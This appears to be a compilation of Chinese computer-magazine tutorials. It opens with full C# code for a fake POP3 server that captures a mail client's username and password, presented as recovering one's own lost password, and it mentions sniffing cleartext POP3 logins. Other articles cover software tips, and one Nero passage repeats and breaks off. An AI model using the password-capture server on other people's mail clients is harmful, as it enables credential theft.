下面我们要用VS.NET 2003和C#开发一个“伪”POP3服务器——之所以说它“伪”，那是因为它只有极其有限的功能，只进行到骗出邮箱密码就停止。

启动VS.NET 2003，新建一个名为PServer的C#控制台应用程序，然后在Class1.cs文件的顶端using System语句之后加入下列三个语句：
using System.Net;
using System.Net.Sockets;
using System.Text;

在Main函数中，我们的第一个任务是创建一个ipEndPoint，让一个TCP服务器监听该端点，接收来自客户端的请求：
// 在127.0.0.1(本地机器)上创建一个TCP服务器，监听
// 110端口的请求(110是POP3服务器的默认端口)

```
IPEndPoint ipEndPoint = new IPEndPoint(IPAddress.Parse("127.0.0.1"), 110);
TcpListener tcpServer = new TcpListener(ipEndPoint);
tcpServer.Start();
```

// 等待来自POP3客户程序(如Outlook)的连接请求
TcpClient tcpClient = tcpServer.AcceptTcpClient();

当一个POP3客户程序连接该服务器时，服务器必须按照POP3协议的要求对客户程序作出应答。根据POP3协议RFC 1939规范的定义，服务器首先要做的是返回一个欢迎信息：

// 向客户程序返回欢迎信息
NetworkStream ns = tcpClient.GetStream();
byte[] outbytes = Encoding.ASCII.GetBytes("+OK Welcome" + Environment.NewLine);
ns.Write(outbytes, 0, outbytes.Length);

客户程序接收到欢迎信息后，同样也会按照POP3协议的要求发送账户名称。我们把这个账户名称记录下来以便以后使用，代码如下：

// 接收和记录邮箱账户名称
byte[] userBytes = new byte[255];
ns.Read(userBytes, 0, userBytes.Length);

收到账户名称信息后，我们要告诉Outlook说这个名称没有问题，客户程序一收到这个信息就会发送密码，然后我们再把密码也记录下来：

// 告诉客户程序账户名称正确
outbytes = Encoding.ASCII.GetBytes("+OK" + Environment.NewLine);
ns.Write(outbytes, 0, outbytes.Length);

// 接收和记录账户密码

byte[] pwdBytes = new byte[255];
ns.Read(pwdBytes, 0, pwdBytes.Length);

接下来要做的就是获取字节数组的内容，将它们转换成字符串，然后输出到控制台：
// 在控制台显示出账户名称、密码
Console.WriteLine("账户名称:" + Encoding.ASCII.GetString(userBytes));
Console.WriteLine("账户密码:" + Encoding.ASCII.GetString(pwdBytes));

既然已经获得了密码，服务器的任务已经完成了，现在可以关闭它。强行关闭服务器会导致客户程序显示错误信息，不过我们并不在乎。关闭服务器的代码是：

```
// 关闭服务器
ns.Close();
tcpClient.Close();
tcpServer.Stop();
```

将上面的所有代码依次输入Main函数，编译一下就得到了一个PServer.exe执行文件，它就是我们的伪POP3服务器。

### 获得密码

首先启动PServer.exe，让我们的伪POP3服务器开始监听来自客户程序的请求。

启动Outlook，点击菜单“工具→电子邮件账户”，选择“查看或更改现有电子邮件账户”，找到要恢复密码的电子邮件账户，点击“更改”打开它的属性对话框，把POP3服务器设置为localhost。在Outlook中接收一下邮件，Outlook将报告说服务器中断了连接，不必理睬。

现在PServer.exe已经得到账户的密码了，密码原来是abcdefg。

### 利用嗅探工具

基于POP3密码在网络上以明文形式传递这一事实，我们还可以利用嗅探工具Ethereal分析TCP/IP通信过程获得账户密码。具体操作步骤请看网上的电子版。

遇到密码丢失的情况，动动脑筋另辟蹊径，其实你自己就能够把握一切。
(浙江 嵊州 俞伟明)

## “咖啡”你都做了些什么？

很多朋友都对杀毒软件的进程感兴趣，想了解它们到底占用了多少内存，那么我们就来介绍一些杀毒软件中的进程，本期最先出场的是McAfee VirusScan(以下简称McAfee)。

McAfee VirusScan是一款非常不错的杀毒软件，安装好后，它共产生七个系统进程。下面我们就来简单介绍一下每个进程的具体作用。

- ① Frameworkservice.exe:该文件可以在系统“服务”中找到，对应为“McAfee Framework服务”。它是McAfee的后台框架进程，McAfee产品的共享组件框架。虽然关闭该服务并不影响McAfee的使用，但该服务会对升级产生影响(当网络防火墙打开时，升级McAfee，就会提示该文件需要访问网络)。
- ② Mcshield.exe:McAfee的核心进程，对应系统“服务”为“Network Associates McShield”。
- ③ naPrdMgr.exe:它是与Frameworkservice.exe关联在一起的进程，如果Frameworkservice.exe停止，则它也会消失。
- ④ Tbmon.exe:错误报告程序。
- ⑤ shstat.exe:系统栏内的软件图标，当然即使关闭计算机仍受于保护之下，其启动项为注册表中[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]项下的ShStatEXE键。
- ⑥ UpdaterUI.exe:该进程用于自动升级。
- ⑦ Vstskmgr.exe:该进程属于系统服务，对应名为“Network Associates Task Manager”。
(北京 神农)

## 巧用策略 关闭无用端口

俗话说“病从口入”，在电脑中这句话也得到了验证，只是电脑中的“口”是指端口，而“病”是指病毒、木马。与生活中一样，我们只要将那些无用端口关闭就可以阻止一部分已知病毒、木马的入侵，这样即使没有安装防火墙(或防火墙被一些病毒强行关闭)，也不会被人控制。而关闭端口的方法就是使用“组策略”中的“IP安全策略”。

第一步:从http://www.newhua.com/cfan/200502/Firewall.rar下载IP安全策略包，然后解压缩，得到文件Firewall.ipsec。

第二步:点击“开始→运行”，输入“gpedit.msc”(不含外侧引号)。

第三步:打开“组策略”窗口，在窗口左侧依次展开“计算机配置→Windows设置→安全设置→IP安全策略，在本地机器”。

第四步:右击右侧窗格，选择“所有任务→导入策略”，然后选择解压缩后的Firewall.ipsec。

第五步:如果右侧窗格中出现了“常用安全策略禁用不必要的端口”项，则表示导入成功。

小提示
如果需要禁用更多的端口，则可右击右侧窗口，在弹出菜单中选择“管理IP筛选器表和筛选器操作”项，然后通过“添加”按钮进行添加(见图)。

注:本文只能针对已知的部分木马起到防范作用，网络及病毒防火墙还是需要安装的。


(北京 神农)

## 电脑中的超级影碟机——超级解霸

豪杰超级解霸绝对算得上是一个经典的国产媒体播放器软件，虽然目前此类软件百花齐放，但它依然拥有着相当多的电脑用户。尽管它并不那么漂亮，但支持Windows平台上几乎所有流行的音频、视频格式（比如：流行的DivX、RMVB、ASF、WMV、MOV、VQF等格式统统不在话下）；具有超强纠错及DVD纠错防死机等多种独到的特性，使之仍然保持着媒体播放的首选软件的位置。

### 菜鸟初试身手

### 实例一 影碟放进光驱立即播给你看

第一步:安装好超级解霸V8后启动它，它会打开两个窗口，一个是播放窗口（见图1），相当于我们的电视屏幕，还有一个是主控面板窗口，可以把它看作影碟机。



第二步:把VCD光盘插入光驱中，按如图1所示，在播放窗口上点击“自动播放→播放”，影片开始播放了，此时再按下主控面板上的“全”按钮，画面即可全屏播放（按下Ctrl + Home组合键可切换全屏模式，按Esc键切换到窗口模式）。另外，在窗口模式下，请试着滚动鼠标滚轮，窗口是不是变大或是变小了？

小提示
超级解霸用来看电影挺合适，听音乐可能更多人喜欢用Winamp等软件，因此你可以在主控面板中点击“设置→文件关联设置”，在打开的窗口中的文件格式列表中取消MP3、CDA、MIDI等音频格式的勾选。

第三步:如果想对影片进行快进或其他控制，可在全屏状态下左键单击，主控面板便显示出来了。如果想暂停播放，可直接按下回车键，恢复播放则再次按下回车键即可。而对于音量调节，则可按Ctrl + + 或 Ctrl + - 组合键来快速调节。

操作小结:超级解霸运行后默认会启动自动伺服务器，它的图标显示在系统托盘处，只要把VCD放入光驱，超级解霸即可自动播放。而在硬盘中的影音文件，如果已经选择和超级解霸进行了文件关联，那么只要在“资源管理器”中双击这些媒体文件即可播放。

### 实例二 看片我要追求更高境界

虽然电影是播放出来了，但是看片还要有最好的效果才行，因此最好还对超级解霸进行一些细致的调整。

1. 电影一开播自动进全屏
在主控面板中点击“设置→播放设置”，在打开的窗口中勾选“每次打开时使用全屏模式”。

2. 让电影更亮、更清楚
现在许多电影播放时会感觉画面偏暗，特别是RM影片，还可能不太清晰，而超级解霸已经预置了多个画面方案，只要在主控面板右下方单击“高亮”按钮（旁边还有“标准”、“柔和”按钮），画面便会更亮、更清晰。它其实就是默认调高了主控面板的“亮度”滑钮，并且按下了全屏按钮旁边的“高”（画质）按钮，相当于播放窗口右键菜单中的“画质增强→使模糊变清晰”。

### 3. 声音我要更完美、更震撼

(1)国粤双语电影
不少电影会提供国粤(或汉英)两种配音，这样就变成了一个喇叭说普通话；另一个喇叭说广东话，有点乱。可点击菜单命令“音频→声道控制→左声道”保留一个配音，如果不是选择的配音，则可选“右声道(原唱)”试试。如果播放的是DVD，则可以通过“音频→配音”再点选相应音轨。

小提示
5.1、6.1音箱越来越流行，面对那么多小音箱难免会接错线，遇到这种情况，根本不用再费力重新连接音频线或是手工搬动音箱，只要在超级解霸中点击“音频→音箱软接线”，然后在打开窗口中拖动鼠标指定音箱音频线的输出即可完成音箱连接的修正。

(2)光驱噪音请你走开
播放VCD和DVD时，高速光驱总是发出很大的噪音，影响心情，这时可以点击“设置→播放设置”，接着勾选“允许调节光驱速度”，在后面的速度选择中选择“4X”或“2X”。

(3)给我更好的音效吧
点击主控窗口的“音频→环绕声配置”，在打开窗口中提供了各种音箱的声场配置方案，并且配有相应的图例，你可以根据自己的需要来选择。

### 实例三 制作自己的电影剪辑

一些电影中总有让你百看不厌的片段，利用超级解霸就能将它们剪辑出来，目前仅限于MPEG(VCD/DVD)标准的MPG、DAT、VOB格式的文件。

第一步:启动超级解霸并打开VCD(或DVD)光盘播放，按回车键暂停播放。

第二步:点击“循环播放”按钮，接着用鼠标把播放进度条滑钮拖到要保存片断的开始位置，点击“选择开始点”按钮，接下来用鼠标把播放滑块拖到要保存片断结束的位置，点击“选择结束点”按钮，播放滑杆上就会出现一段蓝色部分(见图2)。



第三步:点击“保存MPG”按钮，并指定一个文件名和一个文件夹位置，超级解霸就会把前面选择的片断保存到指定的文件夹中了。

不过，用这种方法录制的MPEG片断只能在超级解霸中播放，其他播放软件可能不支持，如果需要刻录成VCD必须通过“豪杰视频通”转换一下。

小提示
除剪辑电影片段外，当看到一个非常美的电影画面时，你还可以单击工具栏上的第三个图标(“单张抓图”按钮)将这个画面单独保存为图片。

### 实例四 原声大碟我自己做

经常在音像店中看到有电影的原声大碟，或者是你希望将某个电影制作成录音剪辑，然后放到MP3随身听中或是刻录成CD，这样外出时也能欣赏。而豪杰超级解霸程序组中还包含有一个超级音频解霸A8能够帮你将VCD、DVD中的音频提取出来，并转录成MP3。

第一步:首先把想要录制MP3的影碟插入光驱中，启动音频解霸，点击菜单“文件→打开音频文件”，打开光盘中相应媒体文件( DVD为VOB格式的文件，VCD为DAT格式的文件)播放，这时将只闻其声，不见其形。

第二步:点击“循环播放”按钮，然后拖动播放进度按钮到插曲开始的位置并单击“选择起始点”设置转录的起始点，接着拖动播放进度按钮到插曲结束的位置并单击“选择结束点”设置转录的终结点(见图3)。



第三步:点击“MP3”按钮将弹出保存对话框，设置好文件名及保存路径，确定后将出现一个数据处理进度窗口，不一会儿就可将选中的这段电影中的伴音转录为MP3了。

小提示
★将其他音乐转换成MP3:使用同样方法可以将音乐CD也转录成MP3保存到硬盘上。一般说来，只要超级解霸能够播放的媒体格式(如RMVB、RM)，都能将其转录为MP3文件。
★借助MTV光盘制作卡拉OK光盘:首先选首MTV用音频解霸进行播放，单击“音频”菜单，在弹出的子菜单内选择“左声道”；接着暂停播放，接着再点击面板上“播放并录音”按钮，系统自动弹出生成文件的存储对话框，直接输入生成的WAV格式文件名称，然后点击“保存”按钮。这时音频解霸会边播放边录制成WAV文件。最后再用刻录软件将WAV文件烧录成CD即可。

### 实例五 多画面点播

有些时候对于经典的电影，经常希望能够重温其中的精采片段，利用超级解霸的书签功能可以实现将精采片段以缩略图形式列在播放窗口内，一点即可快速播放的效果。同时，书签功能还可以帮你记录下上次播放的位置，便于下次接着观看。

第一步:放入VCD或DVD光盘并进行播放，在自己喜欢的片段开始位置点击“视频→书签→添加”，出现“添加书签”对话框。随意填写一个书签名称(比如以时间命名)，然后点击“确定”按钮添加到书签中(见图4)。



第二步:依照此方法将精采的片段全部加入到书签中。

第三步:以后再要播放这张盘时，可点击“视频→书签→预览”命令打开一个预览窗口，选中某个书签，点击“跳至”按钮即可跳到指定位置开始播放了(见图5)。



小提示
智能的断点续播
所谓断点续播，是指解霸能自动记住你上次播放影碟时的位置，下次再打开这张碟看时，它能自动接着上次位置进行播放。设置方法如下:播放光碟时，点击主控面板上的菜单命令“设置→播放设置”，勾选“使用断点续播功能”项，再选择是启动解霸后就开始续播，还是播放光盘时再开始续播。设置好后确定即可。

老鸟支招
1.DVD字幕随意调
看DVD时，有时候画面被字幕挡住了，其实只要将光标定位到字幕，光标此时会变成手的形状，拖动鼠标字幕会跟着光标移动。

另外，右击播放窗口，在弹出菜单中点击“字幕控制→改变字幕色彩”，在打开的对话框中，点击前一个图标可设置字幕的前景色，点击后一个图标可设置字幕的背景色。设置好后，单击“确定”即可。

## 2.工作、看片两不误

第一种方法是把整部电影做成动态桌面，播放电影过程中，右击播放窗口，选择“桌面背景播放”。如想还原为窗口播放形式，只要点击任务栏上的超级解霸图标即可（注意：桌面背景播放只支持MPG格式的文件）。第二种方法则是将播放窗口切换为窗口模式，接着右击播放窗口并选择“窗口在最前端”即可。

## 3.让电脑给你读小说

音频解霸A8还能朗读TXT文本文件。点击菜单“文件→打开音频文件”，选择TXT格式的文本文件，然后点击“播放”按钮，就会听到音频解霸开始读书了。

## 4.在“资源管理器”中看电影、听歌

安装超级解霸后，在“资源管理器”的右上角会出现一个解霸的图标，它可将文件夹的管理区域当成画布，播放文件夹中的视频文件。当此文件夹中有MPEG1、MPEG2标准的影视文件时，可以用鼠标左键选中该文件后，点击一下右上角的圆型小图标，文件夹的窗口就会变成播放窗口，影片内容即会显示。对于RMVB、MP3等其他解霸所支持的影音文件，按下此按钮可以进行声音播放，但无法出现影像。

## 5.自动伺服

自动伺服器的主要功能是检测光盘状态，当你每次往光驱中放入DVD、VCD、CD、AVI、RM等光碟时，它就会自动启动超级解霸并播放光碟。除此之外，其右键菜单中还有多项实用小功能，比如右击系统托盘中自动伺服器图标，在其右键菜单中会看到“弹开所有CD-ROM”及“关闭所有CD-ROM”两项，点击它们就可以达到软件控制开关光驱（包括DVD光驱）目的，从而延长光驱上按键的寿命。但有些朋友不喜欢它常驻在电脑中，你可以进入解霸安装目录，找到SysExplr.exe，将其命名为任意文件名，或者直接删除就可以解决这个问题了。

## 名词解释

DirectCDROM（DirectDVDROM）技术：直接光驱读取技术，可以越过操作系统的光盘控制器直接读取光盘的内容；有了DirectCDROM（DirectDVDROM）技术，才会有防读死技术和预读取技术，有了防读死技术CDROM（DVDROM）才不会因为烂碟而死转读不出来，防读死技术可以把你的计算机变成像VCD/DVD机一样的超强纠错，不但保护CDROM（DVDROM）驱动器，延长它的寿命，而且还使得播放VCD（DVD）时流畅平滑。

YUV：YUV是显示卡加速的硬件能力，可以改善画面的平滑度，提高解压速度；YUV的格式有YUY2、YVYU、UVYU、UYVY、YV12、Y211、YVU9、IF09等等，可以试试不同的格式。没有YUV就是没有硬件加速能力，分两种情况：1.硬件本身没有加速能力。2.硬件有加速能力但驱动程序没有使用它，这时需要安装DirectX，从显示器中选择正确的驱动程序，使驱动程序发挥加速能力。

## 你知道吗？漫谈超级解霸

1996年，一个软件怪才从南方来到北京，并在一个叫作“天汇”的公司落下脚。几天后，有人发现他在自己的屋子里捣鼓一堆东西，并且一边自己焊接电路板，一边动手做声卡，甚至还不断地编着驱动程序之类的东西。谁也没有想到，他通过使用软件技术使486电脑马上能播放出身临其境的VCD影像来。

这项发明非常有市场前景，有人把他推荐给金山公司，于是他们的联合产品《金山影霸》很快横空出世，国内最早的视频媒体播放软件诞生了。

当时，国内电脑配置普遍偏低，奔腾芯片出现还没多久，要想在电脑上流畅地观看VCD彩碟，通常需要配备一块专用的硬解压卡。由于《金山影霸》通过软解压技术（国外的Xing Player是此技术的开创者）能在不添加硬解压卡的情况下流畅实现全屏幕播放VCD彩碟，对当时为数众多的低配置电脑用户具有很大吸引力。

而这个软件怪才就是豪杰公司创始人梁肇新！

1997年，梁肇新与金山公司合作期限终止后，与科学出版社合作推出了《超级解霸3.0》，但情况并不乐观。

1998年初，以软解压技术立业的梁肇新成立了北京世纪豪杰计算机技术有限公司，并推出《超级解霸5.0》。自此，这款软件确立了它独霸国内视频播放软件第一的位置。

## 给你的光盘“穿件漂亮的外衣”

### 漂亮自制型

想制作一个漂亮的CD封套？赶快请出图片处理专家——Photoshop。

**优点**：定制功能强，可以进行个性化设置，加上Photoshop强大的图片处理能力，可以对图片进行更好的控制。

**缺点**：需要熟悉Photoshop的基本操作，对动手能力要求较高。

-   第一步：打开Photoshop，选择菜单命令“文件→新建”，将“名称”设置为“CD封套(正)”，“宽度”及“高度”均设置为“4.75英寸”，“分辨率”设置为“150像素/英寸”，“模式”设置为“CMYK颜色”（如果想打黑白封套，可以设置为“灰度”），内容设置为“白色”，然后点击“好”（见图1）。
-   第二步：用Photoshop打开需要制作为CD封套的图片，将其拖拽至“CD封套(正)”图片中，此时增加图层1，按下Ctrl + T，使图层1撑满整张图片。
-   第三步：使用“T”工具，输入CD封套文字，然后可以根据需要对封面进行处理。
-   第四步：拼合图层，接着按Ctrl + A键，点击菜单命令“编辑→描边”，设置“宽度”为“1”，设置“位置”为“居内”（见图2）。
-   第五步：用第一步方法新建一个“宽度”为“6英寸”（不同光盘盒尺寸不同，可以适当增加或缩小数值），“高度”为“4.75英寸”，名称称为“CD封套(反)”，其他设置不变的图片。这里多出的部分是CD盒的盘脊部分。
-   第六步：在“CD封套(反)”中导入一张4.75英寸×4.75英寸的图片，将其放置在整个画布偏左的位置（CD盘中左侧只有盘脊，而右侧除盘脊外，一般还要多留一部分），同时在它右侧适当位置以竖排方式写好光盘名称，并进行描边等操作，全部完成后，保存这两张图片。
-   第七步：进入Word，选择菜单中的“文件→页面设置”，设置“页边距”的“上”、“下”、“左”、“右”均为“1厘米”，然后再选择菜单中的“插入→图片→来自文件”，将刚刚制作完成的两张图片插入。
-   第八步：按Ctrl + P组合键呼出打印窗口，再用一张A4纸即可打印出CD封套的正反两面，然后用剪刀沿线剪下即可。





### 实用简单型

要说既漂亮、又实用，还要简单，那就不得不说Nero中自带的Nero Cover Designer。

**优点**：专为制作CD封套而设计，更为专业，使用简单。

**缺点**：需要与其他图片处理工具配合使用。

-   第一步：点击“开始→程序→Nero→Nero 6 Ultra Edition→Nero Cover Designer”，打开Nero Cover Designer。
-   第二步：根据需要，从向导窗口上侧选择要制作封面的光盘，可以是“音频”、“数据”或“音频+数据”，这里以“音频+数据”为例（见图3）。
-   第三步：这时就会进入编辑界面，在窗口左侧有一排工具栏，你可以随意使用各种删除或添加图片中的项目（见图4）。由于软件使用并不复杂，下面重点介绍光盘目录制作。
-   第四步：选择菜单中的“对象→插入→目录”（对应数据资料）或“对象→插入→轨道列表”（对应CD音乐），这时鼠标指针会变为十字形，在CD封套中画出任意大小的空白区域。
-   第五步：选择菜单中的“数据→文档数据”，然后在窗口左侧选择“文件系统数据”，接着在窗口右侧设置“添加文件”或“添加文件夹”，然后选择刻录到光盘中的数据文件或文件夹。在窗口右侧选择“音频数据”，





### 小提示

★ Nero 已经添加了两个透明文字块，除非需要自定义添加，否则可以省略第四步。
★ 选择“对象→插入→图像”，可以选择封套底图。
★ 第五步：选择菜单中的“数据→文档数据”，然后在窗口左侧选择“文件系统数据”，接着在窗口右侧设置“添加文件”或“添加文件夹”，然后选择刻录到光盘中的数据文件或文件夹。在窗口右侧选择“音频数据”，

# # 让数码照片自动加日期

## ## 实例:给数码照片自动加上日期水印

通过Adobe提供的脚本插件Photoshop Scripting Support（以下简称PSS，下载地址：http://www.adobe.com/support/downloads/detail.jsp?ftpID=1536），再加上Photoshop的批处理功能，就能实现自动给所有的数码照片加上日期。

第一步：首先下载安装好PSS，然后启动Photoshop，打开其“动作”面板，点击其下“创建新动作”按钮，在弹出窗口中，将新动作命名为“增加日期”，单击“记录”按钮开始录制。

第二步：打开一张数码照片，点击菜单命令“文件→自动→Scripts”打开Scripts窗口，选中其中AddTimeStamp，接着单击“Run Script”按钮（见图1），这时照片上自动新增一个名为“Time stamp”的文本层，层里写着系统日期（你可以选中该文本，改变字体的颜色）；点击“图层→拼合图层”，保存照片后关闭它，并单击动作面板中的停止按钮中止录制。



第三步：单击菜单命令“文件→自动→批处理”打开批处理窗口（见图2），在“动作”中选择刚才录制好的“增加日期”；在“源”中选择“文件夹”，单击其下面的“选取”按钮浏览并选择需要添加日期的图片所在文件夹，并勾选“覆盖动作‘打开’命令”；然后在“目的”中也选择“文件夹”，同样单击“选取”按钮设置新图片保存的文件夹（当它与源文件夹相同时，将会覆盖原来的文件，注意做好备份工作），单击勾选“覆盖动作‘存储在’命令”。全部设置好后，点击“好”按钮即可。接下来Photoshop会自动为指定文件夹下所有图片添加上日期水印了。



## ## 深入 Photoshop 脚本插件

给图片增加日期水印只不过是PSS附加的一个小小功能，实际上这个插件最大的好处是让使用者通过编制JavaScript脚本（或VB编程），达到自动控制Photoshop操作的目的。在其“Sample Scripts\JavaScript”文件夹中带有很多样本程序，你可以用“记事本”打开其中的脚本Emboss.js观摩一下（代码已作适当编辑）：

```javascript
function emboss(inAngle, inHeight, inAmount)
{
    var keyAngleID       = charIDToTypeID( "Angl" );
    var keyHeightID      = charIDToTypeID( "Hght" );
    var keyAmountID      = charIDToTypeID( "Amnt" );
    var eventEmbossID    = charIDToTypeID( "Embs" );
    var filterDescriptor = new ActionDescriptor();
    filterDescriptor.putInteger( keyAngleID, inAngle );
    filterDescriptor.putInteger( keyHeightID, inHeight );
    filterDescriptor.putInteger( keyAmountID, inAmount );
    executeAction( eventEmbossID, filterDescriptor );
}

emboss( 120, 10, 100 )
```

这个样本演示了如何用JavaScript控制Photoshop，对当前图像执行浮雕滤镜特效操作。在Photoshop中打开一幅图片，点击菜单命令“文件→自动→Scripts”打开Scripts窗口，单击Browse按钮找到并打开Emboss.js文件后，则当前图片自动加上浮雕效果了。

这个脚本前几个参数变量分别对应于实际运行的Photoshop浮雕特效对话框中的角度、高度、数量等选项，不难看出，这段脚本就是以预设的数值对图像进行浮雕特效操作。试着改动最后一行函数的参数，你就能得到不同程度的浮雕效果了。

PSS脚本的语法与JavaScript完全一致，所以编制PSS脚本的核心是PSS内置的各种对象及调用参数，有兴趣的读者可以在其Documentation文件夹中查阅各种具体的参考资料，相信你也能编出更加复杂、更酷的Photoshop脚本插件来。

Adobe官方网站上的PSS论坛
http://www.adobeforums.com/cgi-bin/webx?14@75.KXThdU6Dx1H.4@ef7ec95

（北京 一页）

# # FlashGet 三大超精彩秘技

## ## 实例 1: 巧用过滤，只下载某类图片或动画

第一步：通过浏览器在网上冲浪时，发现包含有好看的Flash动画的网页（如本例中的http://www.flashempire.com/theater/play.php?id=6764），将其地址复制下来。

第二步：启动FlashGet并打开其主窗口，按F7键打开“站点资源探索器”，按Ctrl + V键将刚才复制的网址粘贴到地址栏中。然后点击菜单命令“编辑→过滤”，在打开的过滤窗口中选中“只显示以下类型”项，并在下面的文本框中输入“.swf”（不含引号），单击“确定”返回，点击一下地址栏再按下回车键，稍等片刻，该网页中所有Flash动画地址将出现在右侧列表中。

第三步：右击某一文件，从右键菜单中选择“浏览”，这样可在浏览器中打开该动画浏览一下，如果正是所要的动画文件，可再次右击它并选择“下载”就可以了。用同样方法就可以分类下载某网页上的图片、MP3音乐等文件了（见图1）。



**小提示**
FlashGet安装后默认会在C盘创建名为Downloads的文件夹来保存下载的文件，但这样无疑给C盘带来了很大负担，因此建议在软件左侧窗格中分别右击“正在下载”、“已下载”、“已删除”并选择“属性”，将“默认的目录”统统改到其他分区，比如“E:\Downloads”。另外，你还可以右击“已下载”并选择“新建类别”增加新的子类，比如电子图书等。

## ## 实例 2: 下载文件自动到该去的文件夹集合

FlashGet提供了下载规则，它能让指定文件下载后自动保存到相应文件夹，比如让MP3文件自动保存到“C:\Downloads\MP3”文件夹。

点击“工具→下载规则”打开下载规则窗口，接着单击“新建”按钮打开一个编辑窗口，单击勾选第二项“当文件扩展名符合特定的字串”，这时“规则说明”中的第一个按钮将被激活，单击它，并在打开窗口中输入“.mp3”，单击“确定”返回。这时再单击勾选“选择规则操作”中的“移动到指定的类别”，此时“规则说明”中的第二个按钮被激活，单击它打开移动设置窗口，选中类别中的“MP3”，连续点击“确定”退出FlashGet主界面。以后再用FlashGet下载MP3歌曲时，它会自动保存到“MP3”类别中，非常方便（见图2）。


## ## 实例 3: 搭建本地下载站，再多文件也能轻松找

下载并不是难事，而管理下载后的文件可能是许多朋友遇到的麻烦，因为日积月累，经常会出现面对下载的文件却不知它到底是什么的困惑，其实FlashGet已经提供了相当完善的管理机制，只是大家很少能用好它。下面我们就利用它搭建一个自己的本地软件下载网站。

**第一步：注释很重要**
从网上下载的文件多了，查找起来会很困难，所以给它们加上注释文字，以后找起来就方便多了。
建议点击“工具→选项→监视”，勾选“剪贴板内容自动添入注释栏”，这样在下载某个软件前，先选中并右击其说明文字及必要的注册信息，然后选择“复制”，然后单击下载链接，这样即会弹出“添加新的下载任务”窗口，所复制的内容会自动粘贴到“注释”框中。
另外，你还可以随时在FlashGet中右击下载任务并选择“注释”，将相应信息添加进去。





**第二步：把它的来历填进去**
在FlashGet的“添加新的下载任务”中还有一个“引用”项，一方面有些服务器需要该字段才能下载，同时你还可以通过它来了解从哪个网页下载的软件。建议你每次下载软件时将其页面地址复制过来，比如Winamp在天空软件站的页面地址为 http://www2.skycn.com/soft/6730.html。

**第三步：创建你的软件下载站**
（1）首先要进行一些简单的汉化工作，用记事本打开FlashGet安装目录下的 Normal.jcs 文件，按照图3所示将其中如“Name”、“Size”等修改为中文。同样方法修改 Table.jcs 文件（注：这两个文件我们已经修改好并放到 http://www.newhua.com/cfan/200502/flashget.rar）。

```
[Format]
F_START=<html><head><title>FlashGet Job List</title></head><body><p>[ENTER]
F_END=</body></html>         同步任务工作列表
C_START=<p><FONT COLOR="#CC0000">[C_NAME]</FONT><p>[ENTER]
C_END= 软件名称          软件大小
ITEM=<li><b><a href="[F_URL]">[F_NAME]</a></b> (<b>[Size]</b>[F_SIZE])
      (<b>[Complete Time]</b>[F_COMPLETETIME]) (<b><a href="file://[F_SAVEAS]">[F_SAVEAS]</a></b>) (<b><a href="[F_REFERER]">[F_REFERER]</a></b>) (<b><a href="[F_COMMENT]">[F_COMMENT]</a></b>)<p>[ENTER]
```

（2）点击FlashGet菜单命令“文件→输出下载信息”。在打开的输出设置对话框中，将输出类型设置为“HTML”，单击“类别”下拉按钮，选择需要输出信息的类别，“样式”可选择“Normal”。选中下面的“包含子类别”项，然后单击“输出”按钮，设置好文件名及保存的文件夹位置后，保存即可。

（3）打开生成的网页文件，所有下载的文件都被清清楚楚地列了出来（见图4），是不是和软件下载网站很像呢？！，你现在会深刻体会到下载前加注释等工作的重要性了，而且单击“另存为”下面的链接可直接打开相应文件，以后再也不用到下载文件夹中翻箱倒柜了。按下Ctrl + F组合键，还可以使用关键词进行快速搜索。



如果你想以后文件用起来更方便，最好在注释栏中按照一定格式来填写，比如：第一行为软件名称，下面是软件说明。这样下载完成后，你还可以右击下载任务并选择“重命名→注释作为文件名”，这样文件名立即从以前Setup.exe之类的名字变成像Winamp.exe、WinRAR.exe的样子。

**Just Do It**
其实 Table.jcs 和 Normal.jcs 是网页格式书写的，如果你对网页语言很熟，则能够将输出的网页做得更漂亮。

（北京 小英）

# # 用 Photoshop 打造情人节礼物

情人节快到了，该给爱人买什么礼物呢？送她一条铂金项链应该会让心爱的MM大喜过望的，可是……没有那么多钱。但是我们有Photoshop，就让Photoshop帮我们画一条铂金项链吧。

## 制作项链坠

第一步：新建一个尺寸为 300 像素 × 300 像素，分辨率为 72 像素/英寸的图像，将背景色填充为浅蓝色（R:0 G:150 B:255）。如图1所示，新建图层，命名为“项链坠轮廓”。选择自定义形状工具，在选项栏上选择路径模式，形状选心形图案，在画布上画出一个心形。在选项栏上将方法改为“从路径区域减去”，再在其内部画出一个小一些的心形。按下Ctrl+回车键将路径转换为选区，然后设置前景色为偏蓝的灰色（R:210 G:210 B:225），使用油漆桶工具填充（见图2）。



第二步：保持选区，在通道调板上新建一个通道 Alpha 1，填充白色。选择菜单命令“滤镜→模糊→高斯模糊”，将半径设为3，确定。按下Ctrl+D键取消选择。回到图层调板，选择图层“项链坠轮廓”，选择菜单命令“滤镜→渲染→光照效果”，各项参数设置如图3所示，通道选择Alpha 1。确定后得到立体光照效果（见图4）。




第三步：复制图层“项链坠轮廓”，命名为“项链坠纹理”，选择菜单命令“滤镜→素描→铬黄”，在对话框中将细节调整为2，平滑度为8，确定后将此图层的混合模式改为“叠加”。再复制图层“项链坠纹理”，命名为“项链坠光泽”，为此图层添加“斜面与浮雕”图层样式，选择样式为内斜面，大小设为12，单击光泽等高线缩略图，在等高线编辑器中将等高线调节至图5的样子。将不透明度降为30%。确定后，项链坠就有了金属质感（见图6）。


第四步：除背景层外，将其他图层全部合并，构成项链坠的所有元素就都组合在一起了，连续复制四个项链坠，并通过自由变换命令（快捷键Ctrl+T）调整它们的大小，最后排列成如图7所示的效果。






## 给MM戴上项链

第一步：项链的链子由一节一节相同的组成，可以借鉴上面的方法绘制，这里就不详细介绍了。

第二步：打开一幅美女照片（要是女朋友的照片就更好了），将前面制作的项链坠拖放到美女照片上，它会自动建立一个图层，用移动工具调整到合适的位置即可。再把上一步制作的项链的链子拖放到照片上，它也会自动建立一个图层，将该图层复制N个，按下Ctrl+T键分别调整每个复制图层中链子的角度和位置，最后完成效果将如图8所示。把它送给心爱的MM，看看能否博得她的欢心？



（天津 奇士）## 六大任务玩转AutoCAD

AutoCAD是一款专业的工程制图软件，今天小编为大家设置了六项任务，在你安装了AutoCAD后尝试挑战一下这些任务，全部完成它们，你就能基本掌握AutoCAD的操作方法，并可以在实际生活中应用。同时，你会发现AutoCAD是款十分有趣和有用的软件，千万不要错过哦。

### AutoCAD是谁玩儿的？

| 层次 | 用途 | 掌握程度 |
|---|---|---|
| 学龄前儿童 | 画画儿 | 有想象力，会点鼠标即可 |
| 学生教师 | 辅助学习 | 会用基本功能，数理化艺术文学样样用得着 |
